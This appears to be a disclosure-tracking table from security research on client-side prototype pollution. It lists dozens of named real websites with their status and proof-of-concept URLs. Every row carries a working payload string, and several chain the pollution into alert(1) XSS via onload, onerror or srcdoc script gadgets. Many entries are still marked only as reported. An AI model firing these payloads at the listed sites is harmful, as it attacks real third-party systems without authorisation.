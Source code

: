 |avtomir26.ru|362604|URL search|, Cookie-M|Reported|`https://avtomir26.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|avtonomnoeteplo.ru|990491|URL search|, Cookie-M|Reported|`https://avtonomnoeteplo.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|awardfellowships.org|784027|URL search|-|Reported|`https://awardfellowships.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|awo-unterfranken.de|791215|URL search|-|Reported|`https://awo-unterfranken.de/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|axa.es|126169|URL search|-|Reported|`https://axa.es/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|axence.net|556036|URL search|, URL-M|Reported|`https://axence.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|axesapuertorico.com|674583|URL|-|Reported|`https://axesapuertorico.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|axyz.com|600251|URL search|, Cookie-M|Reported|`https://www.axyz.com/us/testimonial/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|aypf.org|515474|URL|-|Reported|`https://aypf.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|azores.com|141249|URL search|, Cookie-M, URL-M|Reported|`https://azores.com/azores/travel-tips/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|b-mall.ro|255817|URL search|-|Reported|`https://www.b-mall.ro/pantaloni-casual-barbati/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|b-online.ru|501660|URL search|, Cookie-M|Not|`https://b-online.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|b2bnn.com|201245|URL search|, Cookie-M|Fixed|`https://www.b2bnn.com/2021/05/social-responsibility-brand-purpose-in-conversation-with-scott-goodson/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|babcox.com|686940|URL|, URL-M|Not|`https://babcox.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|babyshopstores.com|182752|URL search|-|Reported|`https://www.babyshopstores.com/ae/en/search?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&q=concept.en:babyshop:manufacturerName.en:LEGO:manufacturerName.en:Bright%20Starts:manufacturerName.en:L.O.L%20Surprise:manufacturerName.en:Marvel:manufacturerName.en:Hasbro:manufacturerName.en:Our%20Generation:manufacturerName.en:Disney`
|backiee.com|287042|URL search|-|Reported|`https://backiee.com/privacy-policy/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|badabum.ro|618408|URL search|, Cookie-M|Reported|`https://badabum.ro/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|badatel.net|946748|URL search|-|Fixed|`https://www.badatel.net/tag/deti/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bakemag.com|243564|URL search|-|Reported|`https://bakemag.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bakingbusiness.com|122061|URL search|-|Reported|`https://bakingbusiness.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|balance-on.com|640356|URL search|, Cookie-M, URL-M, XSS|Reported|`https://balance-on.com/product/detail.html?__proto__[srcdoc]=%3Cscript%3Ealert(1)%3C/script%3E&product_no=95&cate_no=1&display_group=3`
|balanceofnature.com|510617|URL search|, URL-M|Fixed|`https://balanceofnature.com/privacy-policy/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|balancer.cloud|191392|URL search|-|Reported|`https://balancer.cloud/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|baldorinterim.ro|483801|URL|-|Reported|`https://baldorinterim.ro/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|balibiki.net|974372|URL search|, URL-M|Reported|`https://balibiki.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|ballop.co.kr|668578|URL|-|Reported|`https://ballop.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bamboohr.com|5725|URL search|, Cookie-M, URL-M|Reported|`https://bamboohr.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bananastand.io|152011|URL search|, URL-M|Fixed|`https://www.fera.ai/pricing/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bancocuscatlan.com|288103|URL search|, URL-M|Fixed|`https://www.bancocuscatlan.com/banca-de-personas/soluciones-de-ahorro-e-inversion/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|banjonews.com|797314|URL search|-|Reported|`https://banjonews.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bankozarks.com|631492|URL search|, URL-M|Reported|`https://bankozarks.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|baou.edu.in|347541|URL search|-|Reported|`https://baou.edu.in/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|barandrestaurantexpo.com|265159|URL search|-|Reported|`https://barandrestaurantexpo.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|barbarianstyle.net|795566|URL search|-|Reported|`https://barbarianstyle.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bariloche2000.com|185315|URL search|-|Reported|`https://bariloche2000.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|barleymash.com|931874|URL search|-|Reported|`https://barleymash.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bartonpublishing.com|883325|URL search|, URL-M|Reported|`https://bartonpublishing.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`